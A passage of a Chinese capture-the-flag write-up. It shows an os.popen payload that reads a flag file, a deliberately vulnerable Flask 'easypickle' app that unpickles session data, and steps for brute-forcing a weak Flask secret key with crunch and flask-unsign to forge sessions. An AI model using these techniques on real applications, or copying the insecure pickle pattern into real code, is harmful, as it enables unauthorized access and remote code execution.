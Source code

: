 ```python
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
     else:
         rv = num
print(rv)
```
进入后读取文件
```bash
import os
os.popen('cat /ffffl111l1a44a4ggg').read()
```
### easypickle
python的pickle反序列化
```python
import base64
import pickle
from flask import Flask, session
import os
import random

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(2).hex()

@app.route('/')
def hello_world():
    if not session.get('user'):
        session['user'] = ''.join(random.choices("admin", k=5))
    return 'Hello {}!'.format(session['user'])


@app.route('/admin')
def admin():
    if session.get('user') != "admin":
        return f"<script>alert('Access Denied');window.location.href='/'</script>"
    else:
        try:
            a = base64.b64decode(session.get('ser_data')).replace(b"builtin", b"BuIltIn").replace(b"os", b"Os").replace(b"bytes", b"Bytes")
            if b'R' in a or b'i' in a or b'o' in a or b'b' in a:
                raise pickle.UnpicklingError("R i o b is forbidden")
            pickle.loads(base64.b64decode(session.get('ser_data')))
            return "ok"
        except:
            return "error!"


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8888)
```
#### flask伪造session
flask将session存在客户端，只经过base64编码和秘钥签名
##### 爆破key
生成四位十六进制字典
```bash
crunch 4 4 1234567890"abcdef" >> baopo.txt
```
爆破工具
[https://github.com/Paradoxis/Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign)
```bash
pip install flask-unsign[wordlist]  # 安装
flask-unsign -u --no-literal-eval --wordlist baopo.txt --server [url]  # 字典爆破
```